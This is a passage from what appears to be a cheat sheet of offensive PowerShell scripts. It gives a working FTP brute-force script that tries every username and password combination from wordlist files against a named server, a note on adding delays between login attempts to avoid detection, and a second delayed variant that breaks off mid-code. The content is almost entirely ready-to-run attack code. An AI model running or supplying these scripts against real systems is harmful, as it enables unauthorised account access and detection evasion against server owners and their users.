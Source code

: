 **Description:**

Incorporates rate limiting by adding delays between login attempts to avoid detection, using a wordlist for dictionary attacks.

**Example:**

Test passwords from wordlist.txt for username "admin" against snowcapcyber.com with a 2-second delay.

---

### Brute Forcing FTP Using PowerShell

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$ftpServer = "ftp.snowcapcyber.com"
$ftpPort = 21
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $credentials = New-Object PSCredential -ArgumentList ($username, (ConvertTo-SecureString -AsPlainText $password -Force))
        $ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://${ftpServer}:${ftpPort}")
        $ftpRequest.Credentials = $credentials
        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::ListDirectory
        try {
            $ftpResponse = $ftpRequest.GetResponse()
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        } catch [System.Net.WebException] {
            $errorMessage = $_.Exception.Message
            Write-Host "Login failed: $username:$password - $errorMessage"
        }
    }
}
```

**Description:**

Automates brute-force login attempts for an FTP server by iterating through username and password combinations.

**Example:**

Test all combinations of usernames from usernames.txt and passwords from passwords.txt against ftp.snowcapcyber.com.

---

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$ftpServer = "ftp.snowcapcyber.com"
$ftpPort = 21
$delaySeconds = 2
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $credentials = New-Object PSCredential -ArgumentList ($username, (ConvertTo-SecureString -AsPlainText $password -Force))
        $ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://${ftpServer}:${ftpPort}")
        $ftpRequest.Credentials = $credentials
        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::ListDirectory
        try {
            $ftpResponse = $ftpRequest.GetResponse()
```